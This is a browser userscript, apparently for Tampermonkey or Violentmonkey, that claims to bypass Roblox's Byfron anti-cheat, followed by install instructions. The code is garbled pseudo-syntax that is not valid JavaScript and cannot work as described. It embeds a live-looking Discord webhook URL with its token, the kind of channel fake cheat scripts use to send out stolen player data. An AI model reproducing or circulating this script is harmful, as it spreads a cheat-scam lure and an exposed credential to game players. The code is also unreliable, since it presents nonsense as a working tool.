 // ==UserScript==
// @name        ByfronWebBypass 5.0
// @namespace   Violentmonkey Scripts
// @match       https://www.roblox.com/home
// @grant       none
// @version     5.0
// @author      bywkylex.wtf
// @description Destroy byfron. enjoy!
// ==/UserScript==
Web:RobloxGameClient[Client]:"5.0"
print("Successfully! Reverted RobloxGame")
html:print("Test Reverted Byfron")
ByfronWeb(bypass.Add(32x77))
Web:RobloxGameClient[deleteConsole=byfron.dll]:"5.0"
Roblox:Module("byfron.js")
byfron:webhook("https://discordapp.com/api/webhooks/1085900098782887976/EBBmyTVMk-XmoWuYoULv15d3QiVfaM-xe8OtLzxCLVZVndQg4zTVCM59W425Wop8UE6E")
byfron:htmlprint("Revert Successfully!  -  BySkylex!")
byfron:RobloxGameClient()
html()

DON'T FORGOT THEM  SO  BETA BYPASS
working or idk

Use them on website extension
Tampermonkey or VioletMonkey!

after Installed and
ReInstall roblox
